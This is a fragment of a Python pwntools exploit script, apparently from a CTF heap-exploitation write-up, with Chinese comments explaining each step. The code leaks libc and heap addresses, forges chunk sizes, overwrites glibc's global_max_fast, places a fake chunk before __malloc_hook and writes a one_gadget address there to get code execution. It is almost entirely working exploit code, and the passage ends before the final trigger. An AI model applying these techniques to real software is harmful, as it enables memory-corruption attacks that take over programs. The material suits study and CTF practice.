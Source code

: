 ```py
alloc(0x98,pd) # 3

pd = b'A' * 0x20 + p64(0) + p64(0x71)
alloc(0x98,pd) # 4

dele(0)
alloc(0x98,b'a') # 0
fang.recvuntil("Data is:\n")
libc_base = u64(fang.recv(6).ljust(8,b'\x00')) - 0x3c4b61
one_gadget4 = [0x45226,0x4527a,0xf03a4,0xf1247]
one_gadget_addr = libc_base + one_gadget4[3]

dele(0)
dele(2)
alloc(0x98,b'aaaaaaaa') # 0
fang.recvuntil("aaaaaaaa")
heap_base = u64(fang.recv(6).ljust(8,b'\x00')) - 0x140

# 是0x28且size是0xd8是因为前一个chunk的size被修改为0xde，除去标志位的size就是0xd8，而寻找下一个chunk是依靠size的大小的
# 因此会认为chunk_addr+size，所以会找到0xd8的位置，并认为他是prev_size
# 正常情况下size都是0x10对齐的(64bit下)，但这里不是，所以会出现这样的情况
payload = b'b' * 0x28 + p64(0xd8) + p64(0x61)
alloc(0x98,payload) # 2

dele(1)
payload = b'a' * 0x20 + p64(heap_base + 0xa8 - 3)
edit(payload)

# 余下的要大于MIN_SIZE才会切割，顺便改写id==2的size
payload = b"A" * 0x90 + p64(0) + p64(0x141)
alloc(0xa8,payload) # 1

alloc2(0x98) # 5 马上free的，只是把unsorted剩下的赶进去small bin

# 放进 unsorted bin
dele(2)

payload = b'a' * 0x90 + p64(0) + p64(0xd1)
alloc(0x130,payload) # 2

dele(2)

# 修改 global_max_fast
payload = b'a' * 0x20 + p64(libc_base + 0x3c67f8 - 3)
edit(payload)

# 进入 fastbinsY，越界写到了last_remainder
dele(3)

# 在__malloc_hook前伪造size
payload = b'a' * 0x20 + p64(libc_base + libc.symbols['__malloc_hook'] - 0x30 + 8 - 3)
edit(payload)

# 覆写fd指向fake chunk(__malloc_hook前)
payload = b'a' * 0x90 + p64(0) + p64(0xd1) + p64(libc_base + libc.symbols['__malloc_hook'] - 0x30 )
alloc(0x130,payload) # 2

alloc(0xc0,'BBBB') # 3

dele(0)

# 分配并修改malloc
payload = b'A' * 0x18 + p64(one_gadget_addr) + p64(libc_base + libc.symbols["realloc"])
```